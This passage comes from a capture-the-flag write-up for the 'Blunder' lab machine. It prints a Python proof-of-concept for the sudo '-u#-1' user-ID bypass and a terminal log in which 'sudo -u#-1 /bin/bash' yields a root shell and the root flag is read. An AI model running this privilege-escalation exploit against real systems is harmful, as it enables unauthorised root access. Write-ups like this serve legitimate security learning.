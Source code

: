 ```python
python3 sudo_exploit.py

'''
#!/usr/bin/python3

import os

#Get current username

username = input("Enter current username :")

#check which binary the user can run with sudo

os.system("sudo -l > priv")

os.system("cat priv | grep 'ALL' | cut -d ')' -f 2 > binary")

binary_file = open("binary")

binary= binary_file.read()

#execute sudo exploit

print("Lets hope it works")

os.system("sudo -u#-1 "+ binary)
```

The POC code for the exploit included a basic Python script which could automate running a program as root, but it would be much easier to exploit this manually and get a root shell since it is so simple to execute.

### Getting a shell

```text
hugo@blunder:/dev/shm$ sudo -u#0 /bin/bash
Password: 
Sorry, user hugo is not allowed to execute '/bin/bash' as root on blunder.
hugo@blunder:/dev/shm$ sudo -u#-1 /bin/bash
Password: 
root@blunder:/dev/shm# id shaun
uid=1000(shaun) gid=1000(shaun) groups=1000(shaun),4(adm),24(cdrom),30(dip),46(plugdev),119(lpadmin),130(lxd),131(sambashare)
root@blunder:/dev/shm# id
uid=0(root) gid=1001(hugo) groups=1001(hugo)
root@blunder:/dev/shm# cat /root/root.txt 
e65080f4dddab786a01c78e4df40f5f7
root@blunder:/dev/shm#
```

First I ran `sudo /bin/bash` with user ID `'0'` to test the restriction on running commands as root to see if it could be bypassed by simply giving the ID number for root instead.  This did not work \(as expected\).  
